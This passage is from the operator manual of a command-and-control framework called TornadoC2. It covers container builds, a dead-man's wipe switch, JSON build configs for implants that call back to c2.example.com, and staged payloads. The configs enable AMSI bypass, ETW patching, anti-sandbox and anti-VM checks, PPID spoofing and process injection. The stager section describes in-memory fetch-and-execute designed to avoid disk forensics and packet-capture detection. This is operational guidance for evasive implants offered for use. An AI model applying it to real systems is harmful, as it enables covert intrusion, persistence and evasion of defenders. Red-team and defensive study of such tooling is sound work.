The last one is worth mounting even though the tree ships a `profiles/c2/`
directory inside the image: an operator who adds a profile by dropping
a JSON file into the host tree wants it picked up on the next handler
restart, and a mounted volume makes that possible without a rebuild.

**Multi-arch.** The Dockerfile uses BuildKit's `TARGETARCH` variable,
so the same source builds correctly on amd64 and arm64. The
invocation below is for publishing a multi-arch manifest to a
registry; a local build does not need `--platform`, QEMU, or
`--push` — `docker build .` produces an image for the current host
automatically.

```bash
docker buildx build \
    --platform linux/amd64,linux/arm64 \
    -t your-registry/tornadoc2:latest \
    --push .
```

The Go toolchain is downloaded from `go.dev` for the matching
architecture. Every other step is architecture-agnostic. Two
prerequisites are worth naming:

- **On a Linux host, QEMU binfmt must be registered before the
  build.** The arm64 leg downloads and executes an arm64 Go
  toolchain; on an amd64 host that requires kernel-level
  emulation. Docker Desktop provides it automatically; Docker
  Engine on Linux does not. Register once:

  ```
  docker run --privileged --rm tonistiigi/binfmt --install all
  ```

  Without it, the build fails at the Go toolchain layer with
  `exec format error`.

- **MinGW is amd64-host only.** Debian publishes
  `gcc-mingw-w64-*` for `amd64` and `i386` hosts, not `arm64`. The
  Dockerfile's `INSTALL_MINGW` block guards on `TARGETARCH=amd64`
  and emits a diagnostic on the arm64 leg; the resulting arm64
  image cannot produce Windows DLLs. Operators who need
  `output_format: "dll"` builds should use the amd64 image, or
  cross-compile from outside the container.

`--push` sends the multi-arch manifest to the registry but does not
load any image into the local Docker daemon. To use the image on
the current host afterward:

```bash
docker pull your-registry/tornadoc2:latest
```

Docker selects the matching architecture from the manifest. `--load`
and `--push` cannot be combined for a multi-arch build — `--load`
supports only a single platform.

**Container architecture is independent of agent architecture.**
The Go toolchain in the arm64 image can produce amd64 agents and
vice versa; Go cross-compilation does not require the host to
match the target. The multi-arch build exists so the image itself
runs natively on both host architectures, not because agent
builds need matching images.

### Building the image

Two paths, both supported.

**Build from the source tree.** The compose file's
`pull_policy: build` forces a rebuild whenever `docker compose
up -d` is run:

```bash
git clone <repo-url>
cd <repo-dir>
docker compose up -d --build
```

Or build the image explicitly and then start it:

```bash
docker build -t tornadoc2:latest .
docker compose up -d
```

The local build produces an image for the current host's
architecture. No `--platform` flag, no QEMU, no `--push` — the
`TARGETARCH` variable resolves to the host automatically. The
multi-arch invocation documented above is for publishing a
manifest to a registry, not for local use.

**Build time.** The image bundles the Go toolchain, MinGW, UPX,
and the Python handler. The first build is slow; every subsequent
build with a warm layer cache is fast.

| Configuration | Cold build | Warm cache |
|---|---|---|
| Default (UPX + MinGW + Go bootstrap) | 20–40 min | 2–5 min |
| `INSTALL_UPX=0 INSTALL_MINGW=0` | 12–20 min | 1–3 min |
| `INSTALL_UPX=0 INSTALL_MINGW=0 INSTALL_RUST=0 BOOTSTRAP_GO=0` | 5–10 min | 30 s |

Most of the cold time is the Go toolchain download. The
`BOOTSTRAP_GO=1` layer is what pulls the module graph on first
build so operator builds later in the container are fast.

**Air-gapped hosts.** A host with no internet access cannot
pull from a registry or run `go mod download` during a build.
Transfer a `docker save` archive built on a connected host:

```bash
# On a connected host
docker save tornadoc2:latest -o tornadoc2-image.tar

# Transfer the tarball to the air-gapped host by whatever medium
# is authorised, then on the air-gapped host:
docker load -i tornadoc2-image.tar
```

Set `pull_policy: never` in the compose file so `docker compose
up -d` uses the loaded image instead of attempting a rebuild:

```yaml
services:
  tornado:
    image: tornadoc2:latest
    pull_policy: never
    # remove the build: block
    # ... rest unchanged
```

The Go toolchain is downloaded from `go.dev` for the matching
architecture. Every other step is architecture-agnostic.

**What does not work inside the container.**

Three features of the dead-man's switch rely on host facilities the
container does not have. Each is documented here so the operator is
not surprised by a partial wipe:

- **`deadman halt shutdown` / `reboot`** call `systemctl poweroff` /
  `reboot` through the container's namespace. The call fails silently
  unless the container was started with `--privileged` and the host's
  systemd is reachable via the container's process tree — a
  combination that is not recommended. Leave `TORNADO_DEADMAN_HALT`
  empty in the compose file and pair the switch with a host-side
  `docker compose down` triggered out of band.
- **`deadman shred crypto`** calls `cryptsetup luksErase` against the
  block device holding the tree. A container that has not been granted
  `CAP_SYS_ADMIN` and access to the block device cannot run the erase;
  the switch falls through to the pattern the mode would otherwise
  use. For a containerised deployment that needs header destruction,
  destroy the volume's header from the host after the switch fires,
  or leave the tree on an encrypted volume whose key the operator
  destroys separately.
- **The wipe scope check** walks one directory up from the process
  CWD looking for a directory named `TornadoC2`. Inside the container
  the CWD is `/opt/TornadoC2` and the walk lands on `/opt` — which is
  not named `TornadoC2`, so the safety rail refuses the wipe. This is
  the correct behaviour: the container's filesystem is ephemeral and
  the wipe target is the host's mounted volume. The switch will stop
  every listener and exit, and the mounted volumes will still hold
  the state until the operator removes them on the host.


---

## Build Config File

`beacon-build -c <path>` reads a JSON file instead of the wizard or
CLI flags. Every field is optional; missing keys fall back to the
named `opsec_profile`. An optional `evasion` block overrides the
profile's toggles one key at a time.

**`example-build-config-for-all.json`:**

```json
{
  "_doc": [
    "Every supported field with its default. Underscore-prefixed",
    "keys are comments and ignored by the loader."
  ],

  "opsec_profile": "default",

  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",

  "transport_mode": "http",
  "transport_failover_after": 3,

  "url": "",
  "tls_profile": "go",
  "c2_profile": "",

  "wireguard_server_pubkey": "",
  "wireguard_server_addr": "",
  "wireguard_agent_privkey": "",
  "wireguard_tunnel_ip": "",
  "wireguard_server_tunnel_ip": "10.99.0.1",
  "wireguard_inner_port": "8881",

  "dns_domain": "",
  "dns_resolver": "",
  "doh_resolver": "",
  "doh_host_header": "",
  "doh_user_agent": "",

  "icmp_host": "",

  "pivot_key_path": "",
  "agent_keypair_path": ".keys/agent/agent_signing.key",
  "identity_role": "",

  "smb_pipe": "",
  "smb_relay_pipe": "",

  "tcp_bind_addr": "",
  "tcp_bind_token": "",
  "tcp_relay_target": "",
  "tcp_relay_token": "",
  "tcp_rev_listen": "",
  "tcp_rev_target": "",
  "tcp_rev_token": "",

  "kill_days": 30,
  "work_hours_start": "08:00",
  "work_hours_end": "19:00",

  "stage_name": "",
  "stage_key_hex": "",

  "inject": false,
  "inject_method": "default",

  "evasion": {
    "antisanbox": true,
    "amsi_bypass": true,
    "etw_patch": true,
    "sleep_mask": "aes-ctr",
    "syscall_method": "indirect",
    "string_obfuscation": true,
    "garble": true,
    "upx": false,
    "ppid_spoof": true,
    "antidebug": true,
    "antivm": true,
    "verbose": false
  },

  "mtls": {
    "enabled": false,
    "dir": "",
    "cert": "",
    "key": "",
    "ca": ""
  }
}
```

**Field reference:**

| Field | Type | Values | Applies to |
|-------|------|--------|------------|
| `opsec_profile` | string | `default`, `stealth`, `opsec`, `paranoid` | all |
| `target_os` | string | `linux`, `windows` | all |
| `target_arch` | string | `amd64`, `arm64`, `386` | all |
| `output_format` | string | `exe`, `dll`, `elf`, `shellcode`, `stager` | all |
| `transport_mode` | string | `http`, `quic`, `websocket`, `dns`, `doh`, `icmp`, `wireguard`, `http,dns`, `http,doh`, `dns,doh`, `smb`, `tcp`, `tcprev` | all |
| `transport_failover_after` | int | Consecutive failures before rotation; `0` disables | multi-transport lists only |
| `url` | string | HTTPS URL | HTTP only |
| `tls_profile` | string | `go`, `chrome`, `firefox`, `safari`. Applied on HTTP, DoH, and WebSocket; accepted but ignored on QUIC and WireGuard | HTTP, DoH, and WebSocket |
| `c2_profile` | string | name under `profiles/c2/` | HTTP only |
| `dns_domain` | string | FQDN | DNS and DoH (required) |
| `dns_resolver` | string | `host:port` | DNS only, optional |
| `doh_resolver` | string | HTTPS URL | DoH only, optional (defaults to Cloudflare) |
| `doh_host_header` | string | `Host:` override | DoH only, optional |
| `doh_user_agent` | string | UA string | DoH only, optional (defaults to Firefox 129) |
| `icmp_host` | string | IPv4 address | ICMP only, required |
| `wireguard_server_pubkey` | string | Base64 WireGuard public key | WireGuard only, required |
| `wireguard_server_addr` | string | `host:port` | WireGuard only, required |
| `wireguard_agent_privkey` | string | Base64 WireGuard private key | WireGuard only, required |
| `wireguard_tunnel_ip` | string | IPv4 address | WireGuard only, required |
| `wireguard_server_tunnel_ip` | string | IPv4 address | WireGuard only, optional; defaults to `10.99.0.1`. Must match the handler's `--wireguard-server-ip` |
| `wireguard_inner_port` | string | Port number | WireGuard only, optional; defaults to `8881`. Must match the handler's `--beacon-port` |
| `pivot_key_path` | string | Path to a PEM file containing the engagement-wide pivot keypair (both halves). The builder embeds the half the build's role needs | **required** for every SMB or TCP build, parent or child |
| `agent_keypair_path` | string | Path to the agent's ECDSA P-256 signing keypair, PEM-encoded, PKCS#8. The private half is embedded in every build; the public half is presented at check-in. When empty, a fresh keypair is generated **and not persisted** — the next build produces a different key, and the second agent is refused as an impersonation attempt against a server that pinned the first. Leave this set to `.keys/agent/agent_signing.key` for any deployment that expects to rebuild an agent for an existing session | all builds; mandatory for idempotent rebuilds |
| `identity_role` | string | Optional build-time disambiguator, mixed into the server's session fingerprint when non-empty. Two agents built from the same tree, run on the same host, under the same user, would otherwise resolve to one session, one cookie, one task queue, and one row in the beacon list. Setting a role gives each agent its own session. The builder defaults the role to `smb-child`, `tcp-bind`, or `tcp-rev` for the three pivot child transports; every other build defaults to empty, which reproduces the pre-role fingerprint exactly. The role travels in its own wire field, not as a hostname suffix, so the beacon list shows the machine's real hostname | all builds; empty by default |
| `smb_pipe` | string | Named pipe to dial. Bare name (`tornado_relay_001`) for a same-host pivot, or UNC path (`\\HOST\pipe\NAME`) for a cross-host pivot over SMB | `smb` only, required |
| `smb_relay_pipe` | string | Named pipe to listen on. Bare name only — no path prefix, no UNC form | any transport, Windows only |
| `tcp_bind_addr` | string | `host:port` | `tcp` only, required |
| `tcp_bind_token` | string | 64-char hex | `tcp` only, required |
| `tcp_relay_target` | string | `host:port` | any transport |
| `tcp_relay_token` | string | 64-char hex | must match child's `tcp_bind_token` |
| `tcp_rev_listen` | string | `host:port` | any transport, parent side. Opens a TCP listener that a `tcprev` child dials |
| `tcp_rev_target` | string | `host:port` | `tcprev` only, required. The parent's listener as reachable from the child |
| `tcp_rev_token` | string | 64-char hex | both ends must carry the same value |
| `kill_days` | int | `0` = no deadline | all |
| `work_hours_start` / `work_hours_end` | string | `HH:MM`, both `00:00` = off | all |
| `stage_name` | string | payload name to fetch — **required for stager builds** | stager only |
| `stage_key_hex` | string | 64-char hex AES-256 key, blank = auto | stager only |
| `inject` | bool | `true` enables a second build pass that embeds loader-wrapped shellcode for `migrate <pid>`; `false` (default) leaves the agent with `migrate --self` only | all, except `output_format: "stager"` |
| `inject_method` | string | `default` or `apc`. Selects the build-time default for `migrate <pid>` when the operator does not pass `--method`. `default` is `CreateRemoteThread` / `ptrace`. `apc` is remote APC injection and requires `inject: true` and `target_os: "windows"`. `threadpool`, `fiber`, and `callback` are refused with a specific error naming the correct verb | all, except `output_format: "stager"` |

**Loader behaviour:**

- **The `opsec_profile` is applied first, then `evasion` overrides it
  one key at a time.**
- **Unknown keys inside `evasion` are rejected.**
- **Underscore-prefixed keys are ignored.** `"_doc"`,
  `"_amsi_bypass"`, etc. are treated as comments.
- **`transport_mode` values `smb`, `tcp`, `tcprev`, `quic`,
  `websocket`, and `wireguard` are mutually exclusive with
  everything else.**
- **`transport_mode: "websocket"` requires `url` and rejects
  `output_format: "dll"`.** The DLL has no entry point to run the
  WebSocket loop.
- **`transport_mode: "wireguard"` requires all four of
  `wireguard_server_pubkey`, `wireguard_server_addr`,
  `wireguard_agent_privkey`, and `wireguard_tunnel_ip`.** The
  builder refuses the combination with an error naming the missing
  field. `wireguard_server_tunnel_ip` and `wireguard_inner_port`
  are optional; both fall back to their defaults when empty.
- **`transport_mode: "wireguard"` is not supported on a stager
  build.** A stager has no WireGuard stack.
- **`transport_mode: "tcp"` requires `tcp_bind_addr` and
  `tcp_bind_token`.**
- **`transport_mode: "tcprev"` requires `tcp_rev_target` and
  `tcp_rev_token`.**
- **`tcp_rev_listen` set on any transport requires `tcp_rev_token`.**
  A parent build that opens a reverse listener must carry the shared
  secret the child will present.
- **`transport_mode: "smb"` requires `smb_pipe`, `pivot_key_path`,
  and `target_os=windows`.**
- **Every SMB or TCP build — parent or child — requires
  `pivot_key_path`.** The builder refuses the combination with an
  error naming the missing key file if it is absent.
- **`agent_keypair_path` is strongly recommended.** When it is
  absent or empty, the builder prints a warning and generates a
  fresh signing keypair per build. The key is not persisted, so a
  rebuild produces a different identity — the server sees a
  different public key under a known fingerprint and refuses the
  check-in as an impersonation attempt. The default for a
  deployment that manages its own state is
  `.keys/agent/agent_signing.key`, which the local console and the
  remote build manager both set automatically. A JSON config that
  omits the field and drives `beacon-build` directly bypasses that
  default.
- **`pivot_key_path` must resolve under `mtls_certs/`, `tls_certs/`,
  or `profiles/c2/` on a remote build.** The local console skips the
  check; the remote path does not. `mtls_certs/pivot.pem` is inside
  the whitelist and is the value the wizard offers by default.
- **`transport_mode: "icmp"` requires `icmp_host` and
  `target_os != windows`.**
- **`transport_mode` containing `dns` or `doh` requires
  `dns_domain`.**
- **`transport_mode` containing `doh` with a `doh_resolver` must be
  an `https://` URL** — a plaintext DoH endpoint defeats the
  transport's reason for existing.
- **`output_format: "stager"` rejects `mtls.enabled = true`.**
- **`output_format: "stager"` rejects any `transport_mode` other
  than `http`.** The stager has no DNS, DoH, ICMP, SMB, or TCP code
  path.
- **`inject: true` is refused on a stager build.** A stager cannot
  inject itself; the second pass is only meaningful on `exe`, `elf`,
  or `shellcode` outputs.
- **`inject_method: "apc"` requires `inject: true` and
  `target_os: "windows"`.** The APC backend queues the shellcode that
  the injection pass embeds; without `inject: true` there is nothing
  to queue. The builder refuses the combination with an error naming
  the missing field.
- **`inject_method` values `threadpool`, `fiber`, and `callback` are
  refused at build time.** `threadpool` and `fiber` are
  self-execution techniques that do not fit `migrate <pid>`; the
  error names `execmem` as the correct verb. `callback` is not
  implemented.
- **`inject: true` on Windows requires `donut` on PATH or a
  vendored copy at `beacon/bin/donut`.** When Donut is not found,
  the builder prints a warning and produces a binary that supports
  `migrate --self` only.
- **`inject: true` on Linux requires the vendored ELF-loader stub
  at `beacon/bin/inject_linux_stub.bin`.** When it is not present,
  the builder prints a warning and produces a binary that supports
  `migrate --self` only.

**Example — Linux stealth, HTTP, minimal:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "http",
  "url": "https://c2.example.com:8443",
  "tls_profile": "chrome",
  "c2_profile": "chrome"
}
```

**Example — HTTPS + DNS failover:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "http,dns",
  "transport_failover_after": 3,
  "url": "https://c2.example.com:8881",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "dns_domain": "c2.example.com",
  "dns_resolver": "8.8.8.8:53",
  "kill_days": 30
}
```

**Example — HTTPS + DoH failover:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "http,doh",
  "transport_failover_after": 3,
  "url": "https://c2.example.com:8881",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "dns_domain": "c2.example.com",
  "doh_resolver": "https://cloudflare-dns.com/dns-query",
  "kill_days": 30
}
```

**Example — QUIC / HTTP/3 only:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "quic",
  "url": "https://c2.example.com:8885",
  "c2_profile": "chrome",
  "kill_days": 30
}
```

The url port must match the handler's --beacon-quic-port. The
C2 profile applies: same paths, User-Agent, and extra headers as an
HTTP build. The tls_profile field is accepted but ignored — QUIC
composes its own ClientHello and Go's QUIC stack does not accept a
uTLS dialer.

**Example — ICMP only (Linux target):**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "icmp",
  "icmp_host": "203.0.113.10",
  "kill_days": 30
}
```

**Example — Windows injection via APC:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "windows",
  "target_arch": "amd64",
  "output_format": "exe",
  "transport_mode": "http",
  "url": "https://c2.example.com:8881",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "inject": true,
  "inject_method": "apc",
  "kill_days": 30
}

**Example — SMB child:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "windows",
  "target_arch": "amd64",
  "output_format": "exe",
  "transport_mode": "smb",
  "smb_pipe": "tornado_relay_001",
  "pivot_key_path": "mtls_certs/pivot.pem",
  "kill_days": 30
}
```

**Example — SMB parent with relay:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "windows",
  "target_arch": "amd64",
  "output_format": "exe",
  "transport_mode": "http",
  "url": "https://c2.example.com:8881",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "smb_relay_pipe": "tornado_relay_001",
  "pivot_key_path": "mtls_certs/pivot.pem",
  "work_hours_start": "00:00",
  "work_hours_end": "00:00"
}
```

The parent polls 24/7 so it is always available to relay child
traffic.

**Example — TCP bind child:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "tcp",
  "tcp_bind_addr": "0.0.0.0:4444",
  "tcp_bind_token": "8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a",
  "pivot_key_path": "mtls_certs/pivot.pem",
  "kill_days": 30
}
```

**Example — TCP parent with relay:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "http",
  "url": "https://c2.example.com:8881",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "tcp_relay_target": "10.0.0.5:4444",
  "tcp_relay_token": "8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a",
  "pivot_key_path": "mtls_certs/pivot.pem",
  "work_hours_start": "00:00",
  "work_hours_end": "00:00"
}
```

The `tcp_relay_token` must match the child's `tcp_bind_token`.

**Example — TCP reverse child:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "tcprev",
  "tcp_rev_target": "10.0.0.5:4444",
  "tcp_rev_token": "8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a",
  "pivot_key_path": "mtls_certs/pivot.pem",
  "kill_days": 30
}
```

**Example — TCP reverse parent with listener:**

```json
{
  "opsec_profile": "stealth",
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "http",
  "url": "https://c2.example.com:8881",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "tcp_rev_listen": "0.0.0.0:4444",
  "tcp_rev_token": "8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a",
  "pivot_key_path": "mtls_certs/pivot.pem",
  "work_hours_start": "00:00",
  "work_hours_end": "00:00"
}
```

The `tcp_rev_token` must match the child's `tcp_rev_token`.

---

## Staged Payloads

A stager is a minimal first-stage implant. It runs from the initial
delivery, checks in, fetches a full agent from the server, decrypts it
in memory, and executes it — without writing the payload to disk in a
form a defender can recover. The stager itself is ~4 MB; the full
agent can be any size, because only the stager is dropped on the
target.

### Workflow

**1. Build and stage the full agent.**

```bash
mkdir -p payloads
cp beacon_output/beacon_linux_amd64 payloads/full.bin
```

The filename without the `.bin` extension is the payload's name —
`full` in this case.

**2. Build the stager.**

```
beacon> beacon-build linux amd64 --format stager \
        --url https://c2.example.com:8443 \
        --stage-name full
```

`--stage-name` is **required**. It must match the payload file's stem
(`full` for `payloads/full.bin`). The builder records the stager's
AES-256 key against this name in `payloads/stage_keys.json`, so the
server can find the right key when it serves the payload. A stager
built without a `stage_name` would decrypt the payload with a key the
server cannot look up, and every launch would fail with a decryption
error. The builder refuses the combination at compile time.

**3. Deploy the stager.** On the first check-in the server queues a
`stage_load` task with the payload's name, SHA-256, and size.

**4. Watch it run.** The stager fetches the payload, verifies its
signature and SHA-256, decrypts it, and executes it in memory.

**Profile-declared fetch path.** When the C2 profile the stager was
built against carries a `stager.path` block, the stager fetches
from that path instead of the historical `/stage/<name>`. The
listener registers the profile-declared path as an additional
route that serves the same payload. A profile that does not
declare a `stager.path` block uses the default path with no
change.

### Transport security

**HTTPS is required.** The builder refuses to produce a stager whose
`url` does not begin with `https://`. A plaintext callback would let a
network observer read the URL, serve a different payload, and have
the stager execute it — no signature check is useful if the attacker
controls the channel end to end. The check is enforced at build time
in `builder.py` and repeated at runtime in the stager's `main()`, so a
binary that somehow arrives on a target without passing the builder's
check exits immediately.

### Payload signature verification

Every `/stage/<name>` response is signed by the handler's ECDSA P-256
private key — the same key that signs tasks to the full agent — and
the signature travels in the `X-Payload-Sig` response header,
base64-encoded DER. The stager verifies the signature against the
handler's public key, which is embedded in the stager at build time,
**before** it decrypts or executes anything.

This closes the substitution window that a TLS-terminating MITM — or
a plaintext callback in a hypothetical older build — would otherwise
open. An attacker who can rewrite the payload and its advertised
SHA-256 in flight still cannot produce a signature that verifies
against the handler's public key, so the stager refuses to run.

**When the signer is unavailable.** If the handler was started
without the `cryptography` package (task signing disabled),
`server_pubkey_path` is not staged for the build and the stager is
built with signature verification off. The builder prints a warning
in that case:

```
[build] warning: no server public key staged for this stager
        build — payload signature verification will be disabled on
        the target. Restart the handler with a working ECDSA signer.
```

The stager falls back to the SHA-256 check alone — the pre-signature
posture. Treat this as a deployment error, not a supported mode.

### Reliability

The stager is designed to survive the failure modes a first-stage
implant actually sees:

- **Initial check-in.** Retries with exponential backoff, doubled
  from 5 s to a 60 s ceiling, with ±30 % jitter so multiple stagers
  deployed at once do not produce a correlated retry pattern in a
  packet capture.
- **Dead cookie.** If the server restarts — every cookie is
  invalidated on restart — the next `/tasks` poll returns 401, the
  stager re-checks-in, and receives a fresh cookie. No operator
  action required.
- **Transient `stage_load` failure.** A 503 during a server restart,
  a truncated download, or a stale SHA-256 is retried up to three
  times, spaced by the poll interval.
- **Polling jitter.** The interval between `/tasks` polls is
  randomised within ±30 % of the configured sleep, breaking the clean
  periodic signal a packet-capture-based detector would otherwise
  correlate across multiple stagers.
- **Working-hours window.** The stager respects the same
  `work_hours_start` / `work_hours_end` window the full agent does.
  Outside the window, the poll loop sleeps without contacting the
  server, so a stager deployed against a target with a defined
  business-hours footprint does not poll outside that footprint.
  Both bounds equal (e.g. `00:00` / `00:00`) disables the gate and
  polls 24/7.

After the payload is launched, the stager zeroes its copy of the
decrypted bytes and exits. The scrub is best-effort — the Go runtime
may have already copied the slice — but it reduces the window in
which plaintext is legible in the heap or in swap.

### Encryption

The payload is encrypted at rest with AES-256-GCM keyed by the
stager's embedded `StageKeyHex`. The key is generated at build time
(or supplied by the operator) and written to
`payloads/stage_keys.json`. When the listener serves
`GET /stage/<name>`, it looks up the key, prepends a random 12-byte
nonce, and returns `nonce || ciphertext`. The stager verifies the
signature on the ciphertext, then decrypts.

### Session handoff

The stager reads the same machine identifier the full agent reads —
`/etc/machine-id` on Linux, the hostname elsewhere. That means the
stager and the full agent resolve to the **same session fingerprint**
on the server. When the stager launches the full agent, the server
reattaches to the existing session rather than creating a second one.

Practical effect: the console does not print a second
`[BEACON] New beacon` line when the full agent starts. The session
ID assigned to the stager is the session ID the agent picks up.

### In-memory execution

**Linux.** `memfd_create` anonymous file, `fchmod` to 0700, executed
via `/proc/self/fd/N`. Fallback to a `/dev/shm` temp file unlinked
before the child starts. The payload never touches persistent
storage; the memfd lives only in memory and the fd is `MFD_CLOEXEC`.

**Windows.** The stager writes the payload to a temp file with a
random 16-hex-character name and opens it with
`FILE_FLAG_DELETE_ON_CLOSE`. The file is visible on disk for the brief
window between `WriteFile` and the launch. Windows deletes the file
when the **last handle to it closes** — the child process holds its
own handle for the lifetime of its running image, so the file is
removed when the child exits, not when the stager exits. The stager's
own handle is kept alive only so that Go's garbage collector cannot
close it early and mark the file for deletion before the child has
finished loading the image.

> **Windows is not truly diskless.** The `FILE_FLAG_DELETE_ON_CLOSE`
> path exists because the alternative — in-process PE hollowing —
> would require embedding the C# loader from the full agent, which
> triples the stager's size. Operators whose threat model includes a
> local user reading `%TEMP%` during the stager's execution window
> should be aware that the payload is briefly readable in the clear.
> On Linux the equivalent window does not exist.

### Wire protocol

The stager speaks the same three endpoints as the full agent —
`/beacon`, `/tasks`, `/results` — plus a single `GET
/stage/<name>` (or the profile's `stager.path` when one is
declared) for the payload itself. The stager respects the
profile's `cookie_name` and `status` blocks the same way the full
agent does. Three differences from the full agent:

- **No identity signature.** The stager sends its identity but not an
  `identity_sig`/`identity_ts` pair, because it does not embed the
  agent's ECDSA signing key. The server treats the check-in as
  trust-on-first-use and logs a session warning. This is a size
  trade: the signing code adds roughly 200 KiB.
- **Wire encryption is optional.** A stager built by a handler with
  a working ECDH key embeds `ServerECDHPubkey` and wraps its
  check-in, task poll, and result post in the same AES-256-GCM
  envelope the full agent uses. The task poll also rotates the
  ephemeral public key with every request, matching the full agent's
  forward-secrecy behaviour. A stager built without an embedded key
  — the handler had no `cryptography` package at build time, or the
  operator built a plaintext stager deliberately — falls back to
  plaintext JSON over the TLS channel, matching the pre-wire-
  encryption posture.
- **Payload signature.** The `/stage/<name>` response carries an
  `X-Payload-Sig` header — the handler's ECDSA signature over the
  exact bytes served. The full agent does not use this endpoint, so
  the header only ever appears on a stager's fetch.

Both the missing identity signature and the missing wire encryption
are deliberate and reflected in the size of the stager relative to
the full agent.

### HTTP shaping

The stager sends realistic browser headers on every request: Chrome
120's User-Agent (unless overridden by a C2 profile's `user_agent`),
a browser-shaped `Accept` line, `Accept-Language`, `Cache-Control`,
and `Pragma`. If the C2 profile carries an `extra_headers` block,
those are added verbatim.

The stager also participates in the profile's malleable **response
shaping** end to end. When the listener's profile carries a
`shaping` block, the stager unwraps check-in and tasks responses
through the profile's `checkin_response` and `tasks_response`
extract paths, and wraps its own result posts through the profile's
`results_request` template. The wire format a proxy sees between a
stager and the server is the same shaped JSON it would see between
the full agent and the server — the stager does not stand out as a
plaintext session class on a deployment where the full agent shapes
its responses.

This does not close the JA3 fingerprint gap — that would require
uTLS, which triples the stager size. It does move the stager's
traffic out of the "clearly a Go HTTP client" category that a bare
`net/http` request falls into by default.

### Caveats

- **The full agent is only as small as its own build.**
- **Delivery is a single GET.**
- **A hostile operator with `beacon.build` can name any staged
  payload.**
- **The stager exits after the payload runs.**
- **Signature verification depends on the handler signer being active
  at build time.** If it is not, the stager is built without
  verification and prints a warning; the operator must rebuild after
  fixing the signer.

---

## Remote Build

Operators with `beacon.build` can compile an agent from their own
client. The team server does the compile and streams the resulting
binary back.

### Usage

```
adc > build -c local-config.json
[*] requesting build on server...
[*] server built beacon_linux_amd64 (2905123 bytes, sha256 a1b2c3d4…)
[██████████████████████████████] 100%
✓ built beacon_output/beacon_linux_amd64 (2905123 bytes, 8s, sha256 verified)
server cleaned up the staged build
```

### What the server checks

- **Path whitelist (remote builds only).** Every file path in the
  config must resolve under `mtls_certs/`, `tls_certs/`, or
  `profiles/c2/`. The pivot keypair lives at
  `mtls_certs/pivot.pem`, which is covered by the existing
  `mtls_certs/` entry; the whitelist does not need a new directory
  for it. The local console skips this check — an operator on the
  team server host can name a path anywhere on the filesystem.
- **C2 profile names.** Must be a bare name, not a path.
- **Transport consistency.** The server validates DNS, DoH, and
  ICMP requirements before acquiring a rate-limit token. The
  remaining transports are validated by the builder inside the
  build subprocess; a config that fails one of those checks
  consumes the rate-limit token and produces a build error.
- **Rate limit.** Token bucket per operator.
- **Concurrency cap.**

### What the client does

1. POST `/api/v1/beacon/build` with the JSON config.
2. Receive `{build_id, filename, size, sha256,
   pivot_key_sha256, injector_embedded}`. The last two are
   empty / false on a non-pivot build with no injection pass.
3. Pull the binary in 512 KiB chunks, hashing as it goes.
4. Verify SHA-256 against the server's report.
5. POST `/api/v1/beacon/build/<id>/finish` to release the staged copy
   on the server.

### Limits and caveats

- **Builds block a werkzeug thread for 5–30 s.**
- **The signing keypair is always the server's.**
- **No cross-compilation for exotic targets.**
- **Staged builds live in `beacon_output/remote/`** and are reaped
  after 30 minutes.

---

## Operator Reference

### Local console — main menu

| Command | Description |
|---------|-------------|
| `beacons` / `bl` | List active beacons |
| `beacon <ID>` | Attach to a beacon's interactive console |
| `beacon-build [<os> <arch> [flags]]` | Compile an agent (wizard if no arguments) |
| `beacon-build -c <file>` | Compile from a JSON build config |
| `beacon-rm <ID>` / `beacon-forget <ID>` | Forget a session |
| `operator list\|add\|remove\|set-role\|passwd\|export` | Manage team server operators locally |
| `deadman status\|arm\|arm-until\|reset\|disable\|warn\|halt\|shred` | Inspect or reconfigure the auto-shutdown watchdog |
| `halt [--force] [shutdown\|reboot]` | Run the shutdown sequence now |
| `rotate-cookies` | Regenerate the cookie signing key; every beacon re-checks-in on its next poll |
| `multiplayer on\|off\|status` | Toggle remote operator access |
| `audit [...]` | Inspect the audit log |
| `help` | Show the command reference |
| `exit` / `quit` | Shut down the handler |

### Remote client — main menu

The operator client offers a role-filtered command catalogue, fetched
from the server at banner time. Two frontends dispatch that
catalogue: the terminal REPL, invoked with no extra flag, and the
PySide6 (Qt 6) GUI, invoked with `--gui`. The command list below is
shared by both; the GUI renders the same verbs in a window with a
beacon tree, a tabbed Log/Chat pane, and a native build form. See
[GUI Operator Console](#gui-operator-console) for the layout and
the shortcuts.

| Command | Description |
|---------|-------------|
| `beacons` / `bl` | List active beacons visible to this operator. Includes a `VIEWERS` column showing which other operators are attached to each beacon |
| `use <id>` | Attach to a beacon |
